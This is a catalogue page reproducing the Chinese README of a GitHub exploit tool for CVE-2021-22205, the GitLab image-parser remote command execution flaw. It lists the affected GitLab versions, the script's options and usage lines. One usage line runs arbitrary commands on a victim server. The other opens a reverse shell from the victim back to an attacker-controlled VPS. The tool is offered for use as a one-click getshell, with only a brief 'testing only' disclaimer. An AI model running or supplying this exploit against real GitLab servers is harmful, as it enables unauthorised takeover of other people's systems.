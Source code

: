 # CVE-2021-22205

CVE-2021-22205 检测脚本,支持getshell和命令执行

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/keven1z](https://github.com/keven1z) |
| Url      | [https://github.com/keven1z/CVE-2021-22205](https://github.com/keven1z/CVE-2021-22205)                                               |
| Stars    | 13                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2021-22205* gitlab

</details>

## Readme

# CVE-2021-22205
由于Gitlab未正确验证传递到文件解析器的图像文件从而导致命令执行。攻击者可构造恶意请求利用该漏洞在目标系统执行任意指令，最终导致Gitlab服务器被控制。由于网上大多缺少反弹shell，故修改了网上写的脚本，增加了一键getshell功能

## 影响版本
* 11.9 <=  GitLab（CE/EE）< 13.8.8
* 13.9 <=  GitLab（CE/EE）< 13.9.6
* 13.10 <= GitLab（CE/EE）< 13.10.3

## 使用说明
```shell
	  ______     _______     ____   ___ ____  _      ____  ____  ____   ___  ____  
	 / ___\ \   / / ____|   |___ \ / _ \___ \/ |    |___ \|___ \|___ \ / _ \| ___| 
	| |    \ \ / /|  _| _____ __) | | | |__) | |_____ __) | __) | __) | | | |___ \ 
	| |___  \ V / | |__|_____/ __/| |_| / __/| |_____/ __/ / __/ / __/| |_| |___) |
 	\____ |  \_/  |_____|   |_____|\___/_____|_|    |_____|_____|_____|\___/|____/ 
    	
usage: CVE-2021-22205.py [-h] [-t TARGET] [-c COMMAND] [--shell] [-i IP]
                         [-p PORT]

GitLab < 13.10.3 RCE

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        目标URL
  -c COMMAND, --command COMMAND
                        执行命令
  --shell               是否反弹shell
  -i IP, --ip IP        反弹shell ip
  -p PORT, --port PORT  反弹shell端口
```
## 使用
```shell
python3 CVE-2021-22205.py -t [受害者ip] --shell -i [vps ip] -p [vps port] //反弹shell
python3 CVE-2021-22205.py -t [受害者ip] -c [command] //执行命令
```
## 声明
此脚本仅可用于测试使用，勿作他用



## Get the content

```
git clone https://github.com/keven1z/CVE-2021-22205
cd CVE-2021-22205
```

{% embed url="https://github.com/keven1z/CVE-2021-22205" %}

<figure><img src="https://avatars.githubusercontent.com/u/43847458?v=4" alt=""><figcaption><p>keven1z</p></figcaption></figure>
